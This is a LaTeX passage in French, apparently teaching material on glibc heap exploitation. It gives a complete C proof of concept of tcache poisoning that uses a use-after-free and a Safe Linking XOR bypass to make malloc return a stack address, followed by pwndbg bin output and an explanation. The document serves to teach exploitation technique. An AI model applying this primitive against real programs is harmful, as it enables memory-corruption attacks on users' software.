 \begin{verbatim}
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <assert.h>

int main() {
    // 1. Définition d'une cible sur la pile (stack)
    size_t stack_var[0x10];
    size_t *target = NULL;
    
    // Cherche une adresse sur la pile correctement alingée pour le tcache
    for(int i=0; i<0x10; i++) {
        if(((long)&stack_var[i] & 0xf) == 0) {
            target = &stack_var[i];
            break;
        }
    }
    assert(target != NULL);

    // 2. Allocation et libération pour peupler le Tcache
    intptr_t *a = malloc(128);
    intptr_t *b = malloc(128);
    free(a);
    free(b);
    // Le Tcache est maintenant : B -> A

    // 3. Vulnérabilité : UAF et contournement du Safe Linking
    // L'opération suppose que l'adresse de b est connue
    b[0] = (intptr_t)((long)target ^ (long)b >> 12);
    // Le Tcache est maintenant : B -> target (voir bins ci-dessous)

    // 4. Exploitation : Détournement de l'allocateur
    malloc(128); // Le 1er malloc retourne B

    // Le Tcache est maintenant : target
    intptr_t *c = malloc(128); // Le 2ème malloc retourne directement notre cible

    assert((long)target == (long)c);
    return 0;
}
\end{verbatim}

\begin{pwndbg}[bins]{text}
    tcachebins
    0x90 [  2]: 0x5555555593a0 !\textcolor{pwndbgblue}{—>}! 0x7fffffffd470 {stack_var} !\textcolor{pwndbgred}{<-}! 0x7fe7ffffd
    fastbins
    empty
    unsortedbin
    empty
    smallbins
    empty
    largebins
    empty
\end{pwndbg}

\paragraph{Interprétation de la corruption (Flèche rouge) :}
Dans la sortie \texttt{pwndbg} ci-dessus, la flèche rouge \textcolor{pwndbgred}{<-} signale une rupture de la liste chaînée. L'outil d'analyse tente de lire le pointeur \texttt{fd} suivant à l'adresse de notre cible sur la pile, mais n'y trouve que des données résiduelles invalides (ici \texttt{0x7fe7ffffd}).

